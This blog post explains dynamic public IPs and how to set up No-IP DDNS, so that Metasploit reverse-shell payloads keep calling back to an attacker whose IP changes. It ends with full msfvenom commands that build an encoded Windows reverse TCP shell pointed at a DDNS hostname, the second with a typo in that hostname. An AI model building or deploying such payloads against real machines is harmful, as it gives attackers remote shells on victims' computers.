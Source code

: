 ```yaml
---
author: SkullTech
comments: true
date: 2016-03-06 08:28:02+00:00
layout: post
link: https://techkernel.org/2016/03/06/use-ddns-to-deal-with-your-dynamic-public-ip/
slug: use-ddns-to-deal-with-your-dynamic-public-ip
title: Use DDNS to Deal with Your Dynamic Public IP
wordpress_id: 256
categories:
- Hacking
- Networking
tags:
- DDNS
- DNS
- Dynamic IP
- Metasploit
- MSFVenom
- No-IP
---
```


Many of us have an internet connection with dynamic public IP. That poses some problems if you want to use that connection to host a website, or maybe for hackers like us, to hack using reverse connection payloads. I'm going to discuss in this post how you can overcome that using Dynamic DNS or DDNS. But I'm getting ahead of myself, so let me start by explaining what is public IP and what are some problems you can encounter if you have a dynamic one.


## Understanding Dynamic Public IP Address


Public IP is the IP that's visible to machines outside your local network. For example if two or more machines are connected through a router (maybe through WiFi) to the internet, then the machines are in a local network, as well as both of them are connected to the Internet. Each of them has a locally unique private IP address, not globally. For connecting to the Internet they use the router's public IP.

IP addresses can be static or dynamic. Most of the ISPs provide dynamic public IP, that means it changes from time to time, contrary to the static one, which remains fixed. You can check what's your public IP by googling 'What is my IP', Google will tell you.

Having a dynamic IP address is a hindrance to hacking using reverse connection payloads. Reverse connection payloads, such as _android/meterpreter/reverse_tcp_, store the host IP address, i.e. the IP address of the attacker machine. When it gets executed, it connects back to the host machine by the reference of that host IP. But as dynamic IP keeps changing from time to time, you won't be able to use a payload for a long time because  after some time the IP stored inside it won't point to your machine anymore. That's a problem. A major one. This is where DDNS comes in.


## Dynamic DNS aka DDNS to the Rescue


We all know what DNS or Domain Naming System is, it's the system which binds an IP to a domain name. When you try to connect to a domain name, for example opening www.google.com on a  browser, the request first goes to a DNS server, which resolves the domain name into an IP, and then the browser gets the Google homepage from that IP. Similarly you can get a domain name for your machine and put that domain name in the place of HOST IP address in your payload. But the problem of your IP being dynamic still remains.

Here DDNS comes to the rescue. DDNS servers update the DNS record of your machine continuously, so that even for dynamic IP machines the domain name resolves to the correct IP, always.


## Setting up DDNS using No-IP

There are many DDNS providers, I'm going to use No-IP which is one of them.

### Step 1: Creating a No-IP account

Head to https://www.noip.com and create a free account there.

### Step 2: Adding a Hostname in No-IP

When you get to the dashboard, go to Dynamic DNS -> Hostnames and add a hostname of your choice from there. You can also choose a domain name from a list there. The address you will get is hostname.domainname. Such as I chose the default domain name ddns.com and the hostname I entered is skulltech. So the address I got is 'skulltech.ddns.com'. Refer to the screenshots below for reference.

![step-1](https://techkernel.org/wp-content/uploads/2016/12/step-11.png)
![step-2](https://techkernel.org/wp-content/uploads/2016/12/step-21.png)


### Step 3: Install the Dynamic DNS Update Client


Now you'll need to install a program on your computer and set it up. So that it connects to No-IP server frequently and updates the DNS record. Download the update client from https://www.noip.com/download . It's a tar.gz archive, extract it using the following command
```
tar -xzvf noip-duc-linux.tar.gz
```

![screenshot-from-2016-12-18-14-24-36](https://techkernel.org/wp-content/uploads/2016/12/screenshot-from-2016-12-18-14-24-36.png)


After that change working directory to the newly extracted folder and run the following command to install the No-IP client.

```    
make install
```

![screenshot-from-2016-12-18-14-38-06](https://techkernel.org/wp-content/uploads/2016/12/screenshot-from-2016-12-18-14-38-06.png)


After that the program will ask for your No-IP username and password.


### Step 4: Configure the Client and Run It


Run the following command to launch the configuration wizard of the No-IP client. It will ask you for your credentials, as well as which hostnames you want to update. Select the hostname (or hostnames) that you want to associate with this computer in that step.

```    
noip2 -C
```

When you are done with the configuration, just run **noip2** in the terminal to start the client, it will run in the background and keep updating your DNS record.

```    
noip2
```

![screenshot-from-2016-12-18-14-49-56](https://techkernel.org/wp-content/uploads/2016/12/screenshot-from-2016-12-18-14-49-56.png)


## Using DDNS hostname in Payloads


You can create a basic reverse shell payload for windows and get a shell on a remote computer on running it in that computer. Refer to this tutorial by Offensive Security for that, I won't be going into details how to do that. Assuming that you already know how to create these payloads using _msfvenom_ (if you don't check out this tutorial), I'll show you how you can use your DDNS hostname there.

Generally we run a command like this to generate the payload. Here LHOST is the address of the our local machine, in the following example it's _192.168.1.101_

```    
msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=192.168.1.101 LPORT=3333 -b "\x00" -e x86/shikata_ga_nai -f exe -o /tmp/1.exe
```

Now that we have a DDNS hostname, pass that as LHOST to msfvenom instead of your IP. So now the command will be

```    
msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=skulltech.ddn.com LPORT=3333 -b "\x00" -e x86/shikata_ga_nai -f exe -o /tmp/1.exe
```

Feel free to leave a comment if you face any problem. Happy Hacking! :)
